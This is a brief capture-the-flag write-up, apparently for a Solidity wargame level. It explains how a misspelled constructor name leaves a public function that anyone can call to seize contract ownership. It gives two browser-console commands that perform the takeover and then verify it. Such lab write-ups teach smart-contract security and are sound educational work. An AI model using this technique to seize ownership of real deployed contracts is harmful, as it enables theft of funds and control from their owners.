 ## Target

1. Take ownership of the contract

## Break Down & Analyze

The constructor has a typo: Fal”1”out. Since the wrong spelling, it is served as a function rather than a constructor, so everyone can call it and take ownership.

## Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```
